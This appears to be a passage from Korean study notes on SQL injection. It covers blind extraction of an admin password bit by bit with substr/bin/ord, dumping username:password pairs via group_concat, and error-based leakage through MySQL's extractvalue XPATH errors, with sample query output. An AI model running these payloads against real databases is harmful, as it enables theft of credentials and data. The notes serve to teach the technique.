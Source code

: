 ```sql
mysql> select * from users where username='admin' and substr(bin(ord(password)),1,1)=1;
+----------+----------+l
| username | password |
+----------+----------+
| admin    | P@ssword |
+----------+----------+
1 row in set (0.00 sec)
mysql> select * from users where username='admin' and substr(bin(ord(password)),2,1)=1;
Empty set (0.00 sec)
```

### group_concat
아래 쿼리의 결과는 admin:admin,guest:password,test:test1 과 같은 형태를 가진다.

	group_concat(username,0x3a,password)

응용하면 다음과 같음

	if(ord(substr((select group_concat(username,0x3a,password) from users), 37,1))=126, (select 1 union select 2), 0)


# Error based SQL Injection
애플리케이션에서 발생하는 에러를 이용해 공격
문법 에러와 같이 DBMS에서 쿼리가 실행되기 전에 발생하는 에러가 아닌 
런타임 (Runtime) 즉, 쿼리가 실행되고나서 발생하는 에러가 필요

### extractvalue

```sql
SELECT extractvalue(1,concat(0x3a,version()));
/*
ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
*/
```

extractvalue 함수는 첫 번째 인자로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출
만약, 두 번째 인자가 올바르지 않은 XPATH 식일 경우 
올바르지 않은 XPATH 식이라는 에러 메시지와 함께 잘못된 식을 출력

```sql
mysql> SELECT extractvalue('<a>test</a> <b>abcd</b>', '/a');
+-----------------------------------------------+
| extractvalue('<a>test</a> <b>abcd</b>', '/a') |
+-----------------------------------------------+
| test                                          |
+-----------------------------------------------+
1 row in set (0.00 sec)

mysql> SELECT extractvalue(1, ':abcd');
ERROR 1105 (HY000): XPATH syntax error: ':abcd'
/* ":" 로 시작하면 올바르지 않은 XPATH 식 */
```
